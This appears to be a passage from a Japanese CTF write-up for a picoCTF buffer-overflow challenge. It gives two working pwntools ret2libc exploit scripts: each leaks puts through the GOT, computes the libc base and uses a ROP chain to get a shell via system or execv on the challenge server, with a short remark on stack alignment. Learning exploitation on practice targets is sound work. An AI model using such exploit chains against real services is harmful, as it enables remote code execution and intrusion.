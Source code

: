 libc = ELF('./libc.so.6')
off_puts = libc.symbols["puts"]

bufsize = 112 + 24
payload = "A" * bufsize
payload += p64(pop_rdi)
payload += p64(got_puts)
payload += p64(plt_puts)
payload += p64(addr_main)      # return to main
s.sendlineafter("WeLcOmE To mY EcHo sErVeR!\n",payload)
s.recvuntil('\n')

libc_puts = u64(s.recv(6) + "\x00\x00")
libc_base = libc_puts - off_puts
libc.address = libc_base
print hex(libc_base)

payload = "A" * bufsize
payload += p64(ret)
payload += p64(pop_rdi)
payload += p64(libc.search(b'/bin/sh').next())
payload += p64(libc.sym.system)
    
s.sendlineafter("WeLcOmE To mY EcHo sErVeR!\n",payload)
s.recvuntil('\n')
s.interactive()	
{{< / highlight >}}


<br />
ハイライト部分でretを入れているのは、おそらく16バイトアラインメントです。

{{% admonition quote "quote" %}}
ret命令を一度呼び出しスタックを8バイトずらせば、system関数を呼び出しても動作します。（Kusanoさんの「例題pwnable」より）
{{% /admonition %}}

<br />

書いたコード (その２)

```Python
#!/usr/bin/env python
# -*- coding:utf-8 -*-

from pwn import *
context(os='linux', arch='amd64')
context.log_level = 'critical'

elf = ELF('./vuln')
context.binary = elf

s = remote('mercury.picoctf.net', 49464)

rop = ROP(elf)
rop.puts(elf.got.puts)
rop.main()
print(rop.dump())
s.sendlineafter("WeLcOmE To mY EcHo sErVeR!\n", b'A'*136 + rop.chain())
s.recvuntil('\n')
puts = u64(s.recvline().rstrip().ljust(8, b"\x00"))
print('puts: %x' % puts)
libc = ELF('./libc.so.6')
libc.address = puts - libc.symbols.puts

rop = ROP(libc)
rop.execv(next(libc.search(b'/bin/sh')), 0)
print(rop.dump())
s.sendlineafter("WeLcOmE To mY EcHo sErVeR!\n", b'A'*136 + rop.chain())
```
